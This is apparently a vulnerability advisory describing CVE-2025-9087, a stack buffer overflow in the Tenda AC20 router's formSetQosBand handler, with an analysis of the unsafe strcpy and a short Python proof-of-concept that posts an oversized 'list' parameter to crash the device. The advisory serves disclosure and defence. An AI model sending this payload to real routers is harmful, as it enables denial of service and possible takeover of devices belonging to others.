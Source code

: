 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) formSetQosBand

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/SetNetControlList` endpoint. The flaw resides in the `set_qosMib_list` function, which processes the `list` input using the unsafe `strcpy` function without bounds checking, leading to stack memory corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/SetNetControlList`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: CVE-2025-9087
  
*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `formSetQosBand` function and its dependent `set_qosMib_list` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `formSetQosBand` and directly passed to `set_qosMib_list` for QoS bandwidth control rule processing, with no initial input validation.

2.  **Rule Parsing**: `set_qosMib_list` splits the `list` input by a delimiter (controlled by the second parameter `a2`, value 10) using `strchr`. Each split segment is treated as a QoS rule entry.

3.  **Unsafe Copy**: For each split rule entry, the critical unsafe operation occurs:

*   `strcpy(v8, s)`: Copies the user-controlled rule segment (`s`, derived from `list`) into `v8`, a fixed-size 256-byte stack buffer.

*   `strcpy` does not check the length of `s` against the size of `v8`. If `s` exceeds 255 bytes (plus the null terminator), it will overflow the `v8` buffer.

1.  **Subsequent Parsing**: After the unsafe copy, `sscanf` is used to parse fields from `v8` (e.g., via `sscanf(v8, ";%[^;];%[^;];%[^;];%[^;];", ...)` or `sscanf(v8, "%[^\r]\r%[^\r]\r%[^\r]\r%s", ...)`). Even if parsing is intended to extract specific fields, the prior `strcpy` already introduces the overflow risk.

If the user-controlled `list` parameter contains a rule segment longer than 255 bytes, `strcpy(v8, s)` will overflow the 256-byte `v8` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## PoC: Python Exploit Script

```
from pwn import *
import requests
url = "http://192.168.XXX.XXX/goform/SetNetControlList"
cookie = {"Cookie":"password=rfl1qw"}
data = {"list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```

This script sends a crafted `list` parameter containing an overly long QoS rule segment. When processed by `set_qosMib_list`, the `strcpy(v8, s)` call will overflow the `v8` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

